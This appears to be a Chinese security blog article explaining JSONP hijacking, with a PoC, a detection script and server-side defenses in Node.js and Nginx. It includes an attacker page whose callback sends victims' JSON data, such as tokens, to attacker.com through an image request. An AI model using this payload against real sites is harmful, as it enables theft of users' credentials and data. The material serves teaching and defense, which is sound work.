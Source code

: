 #  JSONP劫持漏洞攻防指南   
 黑曜网安实验室   2025-05-07 10:35  
  
# 一、JSONP技术原理剖析  
### 1.1 核心机制  
  
JSONP（JSON with Padding）是一种基于动态脚本注入的跨域通信技术，其核心原理如下：  
```
// 客户端定义回调处理函数
function handleResponse(data) {
  console.log("接收数据:", data);
}

// 创建动态脚本标签
const script = document.createElement('script');
script.src = 'http://api.example.com/data?callback=handleResponse';
document.body.appendChild(script);
```  
### 1.2 技术特点  
<table><thead><tr><th style="color: rgb(64, 64, 64);padding: 10px 10px 10px 0px;border-bottom: 1px solid rgb(187, 187, 187);border-top: none;font-weight: 600;font-size: 15px;line-height: 1.72;border-right-color: rgb(187, 187, 187);border-left-color: rgb(187, 187, 187);text-align: left;"><section><span leaf="">特征</span></section></th><th style="color: rgb(64, 64, 64);padding: 10px;border-bottom: 1px solid rgb(187, 187, 187);border-top: none;font-weight: 600;font-size: 15px;line-height: 1.72;border-right-color: rgb(187, 187, 187);border-left-color: rgb(187, 187, 187);text-align: left;"><section><span leaf="">说明</span></section></th></tr></thead><tbody><tr><td style="padding: 10px 10px 10px 0px;border-bottom: 1px solid rgb(229, 229, 229);font-size: 15px;line-height: 1.72;border-top-color: rgb(229, 229, 229);border-right-color: rgb(229, 229, 229);border-left-color: rgb(229, 229, 229);min-width: 100px;max-width: max(30vw, 320px);"><section><span leaf="">传输方式</span></section></td><td style="padding: 10px;border-bottom: 1px solid rgb(229, 229, 229);font-size: 15px;line-height: 1.72;border-top-color: rgb(229, 229, 229);border-right-color: rgb(229, 229, 229);border-left-color: rgb(229, 229, 229);min-width: 100px;max-width: max(30vw, 320px);"><section><span leaf="">仅支持GET请求</span></section></td></tr><tr><td style="padding: 10px 10px 10px 0px;border-bottom: 1px solid rgb(229, 229, 229);font-size: 15px;line-height: 1.72;border-top-color: rgb(229, 229, 229);border-right-color: rgb(229, 229, 229);border-left-color: rgb(229, 229, 229);min-width: 100px;max-width: max(30vw, 320px);"><section><span leaf="">数据格式</span></section></td><td style="padding: 10px;border-bottom: 1px solid rgb(229, 229, 229);font-size: 15px;line-height: 1.72;border-top-color: rgb(229, 229, 229);border-right-color: rgb(229, 229, 229);border-left-color: rgb(229, 229, 229);min-width: 100px;max-width: max(30vw, 320px);"><section><span leaf="">JavaScript可执行代码</span></section></td></tr><tr><td style="padding: 10px 10px 10px 0px;border-bottom: 1px solid rgb(229, 229, 229);font-size: 15px;line-height: 1.72;border-top-color: rgb(229, 229, 229);border-right-color: rgb(229, 229, 229);border-left-color: rgb(229, 229, 229);min-width: 100px;max-width: max(30vw, 320px);"><section><span leaf="">依赖条件</span></section></td><td style="padding: 10px;border-bottom: 1px solid rgb(229, 229, 229);font-size: 15px;line-height: 1.72;border-top-color: rgb(229, 229, 229);border-right-color: rgb(229, 229, 229);border-left-color: rgb(229, 229, 229);min-width: 100px;max-width: max(30vw, 320px);"><section><span leaf="">服务端需实现回调封装逻辑</span></section></td></tr><tr><td style="padding: 10px 10px 10px 0px;border-bottom: 1px solid rgb(229, 229, 229);font-size: 15px;line-height: 1.72;border-top-color: rgb(229, 229, 229);border-right-color: rgb(229, 229, 229);border-left-color: rgb(229, 229, 229);min-width: 100px;max-width: max(30vw, 320px);"><section><span leaf="">安全风险</span></section></td><td style="padding: 10px;border-bottom: 1px solid rgb(229, 229, 229);font-size: 15px;line-height: 1.72;border-top-color: rgb(229, 229, 229);border-right-color: rgb(229, 229, 229);border-left-color: rgb(229, 229, 229);min-width: 100px;max-width: max(30vw, 320px);"><section><span leaf="">易受XSS和CSRF攻击</span></section></td></tr></tbody></table>### 1.3 通信流程图解  
```
[客户端]                    [服务端]
   |-- 1.定义回调函数---------->|
   |-- 2.发起跨域请求(callback)-->|
   |                           |-- 3.构造JS响应
   |<--4.执行回调函数(含数据)----|
```  
## 二、JSONP劫持攻击深度解析  
### 2.1 攻击场景还原  
  
**实验环境搭建：**  
```
# 启动模拟服务（需Node.js环境）
npm install express
node jsonp-server.js
```  
  
**恶意页面代码示例：**  
```
<!-- 攻击者服务器上的exploit.html -->
<script>
function stealData(payload) {
  // 数据外传技术：使用Image对象绕过CORS
  const exfil = new Image();
  exfil.src = `http://attacker.com/log?data=${btoa(JSON.stringify(payload))}`;
}
</script>
<script src="http://vuln-domain.com/api?callback=stealData"></script>
```  
### 2.2 漏洞验证流程  
### 接口发现：  
  
使用BurpSuite抓包，过滤包含以下参数的请求：****  
```
GET /userinfo?jsonp=callback123 HTTP/1.1
Host: target.com
```  
  
**敏感数据检测：**  
  
浏览器控制台输出示例：  
```
handleResponse({user: "admin", token: "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."})
```  
1. PoC构造验证：  
  
```
<!-- 本地验证脚本 -->
<iframe srcdoc='
  <script>
  function poc(data){alert(JSON.stringify(data))}
  </script>
  <script src="http://target.com/api?callback=poc"></script>
'></iframe>
```  
### 2.3 自动化检测脚本  
```
import requests

def detect_jsonp(url):
    params = {
        'callback': 'test',
        'jsonp': 'test',
        'cb': 'test'
    }
    try:
        resp = requests.get(url, params=params)
        if resp.text.startswith('test('):
            print(f"[!] 漏洞存在: {resp.url}")
    except Exception as e:
        print(f"检测异常: {str(e)}")

# 示例检测
detect_jsonp('http://test.com/userinfo')
```  
## 三、防御方案全景图  
### 3.1 多层级防御矩阵  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2urYTeQV6azQ3Khm4iafxtrx3w2agic4YhEw9ib4mfTiaoFw9UToIVacB5Msq0K6cQIQiarC7KT8OBL5e4g/640?wx_fmt=png&from=appmsg "")  
### 3.2 代码级防护示例  
  
**Node.js防御实现：**  
```
app.get('/api', (req, res) => {
  // 校验Referer白名单
  const validReferers = ['https://trusted.com'];
  if (!validReferers.includes(req.headers.referer)) {
    return res.status(403).send('Access denied');
  }

  // 强制指定回调函数名
  const callback = 'secureCallback';
  const data = JSON.stringify({user: 'demo'});
  res.set('X-Content-Type-Options', 'nosniff');
  res.send(`${callback}(${data})`);
});
```  
  
**Nginx反向代理配置：**  
```
location /api {
    # 限制跨域访问
    if ($http_origin !~* (example.com|trusted.org)) {
        return 403;
    }

    # 过滤危险参数
    if ($args ~* callback=) {
        return 400;
    }

    proxy_pass http://backend;
}
```  
## 四、现代替代方案  
### 4.1 CORS标准配置  
```
Access-Control-Allow-Origin: https://trusted-domain.com
Access-Control-Allow-Methods: POST, GET, OPTIONS
Access-Control-Allow-Headers: Content-Type, Authorization
Access-Control-Max-Age: 86400
```  
### 4.2 OAuth 2.0安全流程  
```
[Client] --1. Auth Request--> [Auth Server]
[Client] <--2. Auth Code--- [Auth Server]
[Client] --3. Code+Secret--> [Auth Server]
[Client] <--4. Access Token-- [Auth Server]
[Client] --5. Token--> [Resource Server]
```  
## 五、知识延伸  
  
根据MITRE CWE最新分类：  
- **CWE-352**  
: Cross-Site Request Forgery  
  
- **CWE-942**  
: 过度许可的跨域白名单  
  
- **CWE-1021**  
: 不当的Rest API授权  
  
****  
**安全警示**  
：OWASP 2023报告显示，虽然JSONP使用率下降至7%，但其中仍有35%的接口存在敏感数据泄露风险。建议企业定期进行接口  
  
  
资料发放处  
  
如果需要网络安全学习资料可以加一下我们的KUKI师傅  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/XvnzjMsl2urYTeQV6azQ3Khm4iafxtrx3ka15HqrCR3bo86tqM7jfVahCjFficLibaNgpHwbX6O1HuXFBE9bE3zCg/640?wx_fmt=webp&from=appmsg "")  
  
  
